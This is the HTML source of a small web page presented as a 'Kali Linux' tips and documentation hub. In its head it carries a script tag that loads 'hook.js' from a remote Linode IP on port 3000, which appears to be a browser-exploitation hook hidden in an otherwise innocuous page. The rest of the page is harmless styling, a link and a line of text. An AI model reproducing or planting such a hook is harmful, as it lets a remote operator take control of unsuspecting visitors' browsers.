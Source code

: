 <html>
<head>
	<script src=”http://139-144-60-176.ip.linodeusercontent.com:3000/hook.js” type=”text/javascript”></script>
	<style>
		body {
			background-image: url("https://github.com/Fort-Bonnitar/fort-bonnitar.github.io/blob/main/background.png?raw=true");
			background-size: cover;
		}
	</style>
	<title>Kali Linux</title>
</head>
<body style="text-align:center;">
	<h1 style="color:green;">Tips, Tricks, and Documentation.</h1>
	<p id="GFG_UP" style="font-size: 19px; font-weight: bold;"></p>
	<a href="https://www.kali.org/docs/" style="color: green; font-size: 24px; font-weight: bold;">Documentation</a>
	<p id="GFG_DOWN" style="color: green; font-size: 24px; font-weight: bold;"></p>
	<script>
		var el_up = document.getElementById("GFG_UP");
		var el_down = document.getElementById("GFG_DOWN");
		el_up.innerHTML = "An easy way to find resources such as tips, tutorials, documentation, etc all in one place.";
	</script>
</body>
</html>
